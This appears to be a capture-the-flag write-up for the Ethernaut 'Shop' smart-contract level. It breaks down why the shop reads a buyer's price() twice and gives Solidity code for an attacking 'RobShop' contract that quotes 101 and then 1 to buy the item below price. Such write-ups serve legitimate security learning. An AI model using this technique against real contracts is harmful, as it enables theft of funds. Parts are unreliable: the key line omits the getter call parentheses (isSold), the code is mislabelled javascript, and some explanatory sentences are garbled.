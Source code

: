 > Сan you get the item from the shop for less than the price asked?

This one should ring some bells if you've completed challenge 11, `Elevator`.

Breaking down the contract:
* High level, it logic for buying one item with `uint price == 100` and `bool isSold`
* It has a `buy()` function which interfaces with `Buyer`
  * It's important to note that `Buyer _buyer` does not implement the `Buyer` interface's `price()` method. We may have a way in.
* An if statement checks if the value returned by the interface's `price()` method is >= 100 and that the item hasn't been sold. 
  * `isSold` is then set to true before the price is retrieved yet again, maybe we can manipulate the price here...

## Solution

The solution framework here is simple. We create a malicious contract that implements the `Buyer` interface's `price()` method. Then, we manipulate the `isSold` variable to allow us to buy the item at a bargain.

1. In Remix, add the existing Ethernaut code and spin up a malicious contract - I'm calling mine `RobShop`
```javascript
// Buyer interface
// Shop contract

contract RobShop {}
```
2. We then add a function to call the `buy()` method on the Ethernaut contract
```javascript
contract RobShop {
    // _target will end up being our Ethernaut contract instance
    function rob(address _target) public {
        Shop(_target).buy();
    }
}
```
3. Implement a malicious `price()` function
```javascript
contract RobShop {
    // ...

    // implement the Buyer interface price method
    function price() public view returns (uint256) {
        // if isSold == true, price = 1, else price = 101
        return Shop(msg.sender).isSold ? 1 : 101;
    }
}
```
4. Compile and deploy the `RobShop` contract (make sure you're using the Injected Web3 environment). Then call `rob()` with your contract instance.